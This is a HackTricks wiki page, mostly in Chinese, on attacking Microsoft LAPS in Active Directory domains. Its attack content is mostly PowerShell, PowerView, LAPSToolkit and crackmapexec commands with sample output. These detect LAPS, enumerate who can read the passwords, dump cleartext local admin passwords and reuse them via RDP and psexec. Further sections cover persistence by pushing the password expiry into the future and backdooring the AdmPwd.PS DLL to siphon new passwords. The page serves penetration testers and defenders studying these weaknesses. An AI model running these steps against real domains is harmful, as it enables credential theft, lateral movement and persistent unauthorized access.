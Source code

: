 # LAPS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## 基本信息

本地管理员密码解决方案（LAPS）是一种用于管理系统的工具，其中**管理员密码**是**唯一的、随机生成的，并且经常更改**，适用于加入域的计算机。这些密码安全地存储在Active Directory中，仅对通过访问控制列表（ACL）获得权限的用户可访问。通过使用**Kerberos版本5**和**高级加密标准（AES）**确保从客户端到服务器的密码传输安全。

在域的计算机对象中，LAPS的实施导致添加两个新属性：**`ms-mcs-AdmPwd`**和**`ms-mcs-AdmPwdExpirationTime`**。这些属性分别存储**明文管理员密码**和**其过期时间**。

### 检查是否已激活
```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```
### LAPS 密码访问

您可以从 `\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol` **下载原始 LAPS 策略**，然后使用 [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) 包中的 **`Parse-PolFile`** 将此文件转换为人类可读的格式。

此外，如果在我们可以访问的机器上安装了 **本地 LAPS PowerShell cmdlets**，也可以使用它们：
```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```
**PowerView** 还可以用来找出 **谁可以读取密码并读取它**：
```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```
### LAPSToolkit

[LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) 通过几个功能促进了 LAPS 的枚举。\
其中之一是解析 **`ExtendedRights`** 以获取 **所有启用 LAPS 的计算机。** 这将显示 **专门被委派读取 LAPS 密码的组，** 这些组通常是受保护组中的用户。\
一个 **已将计算机** 加入域的 **帐户** 会获得该主机的 `All Extended Rights`，而这个权限使得 **帐户** 能够 **读取密码。** 枚举可能会显示一个可以在主机上读取 LAPS 密码的用户帐户。这可以帮助我们 **针对特定的 AD 用户**，他们可以读取 LAPS 密码。
```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **通过 Crackmapexec 转储 LAPS 密码**
如果无法访问 PowerShell，您可以通过 LDAP 远程利用此权限。
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
这将转储用户可以读取的所有密码，使您能够以不同的用户获得更好的立足点。

## ** 使用 LAPS 密码 **
```
xfreerdp /v:192.168.1.1:3389  /u:Administrator
Password: 2Z@Ae)7!{9#Cq

python psexec.py Administrator@web.example.com
Password: 2Z@Ae)7!{9#Cq
```
## **LAPS 持久性**

### **到期日期**

一旦成为管理员，可以通过**将到期日期设置为未来**来**获取密码**并**防止**机器**更新**其**密码**。
```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```
{% hint style="warning" %}
如果**管理员**使用**`Reset-AdmPwdPassword`** cmdlet，或者在LAPS GPO中启用了**不允许密码过期时间超过政策要求**，密码仍然会被重置。
{% endhint %}

### 后门

LAPS的原始源代码可以在[这里](https://github.com/GreyCorbel/admpwd)找到，因此可以在代码中放置一个后门（例如在`Main/AdmPwd.PS/Main.cs`中的`Get-AdmPwdPassword`方法内），以某种方式**提取新密码或将其存储在某处**。

然后，只需编译新的`AdmPwd.PS.dll`并将其上传到机器的`C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll`（并更改修改时间）。

## 参考
* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
学习和实践AWS黑客攻击：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践GCP黑客攻击：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github库提交PR来分享黑客技巧。

</details>
{% endhint %}
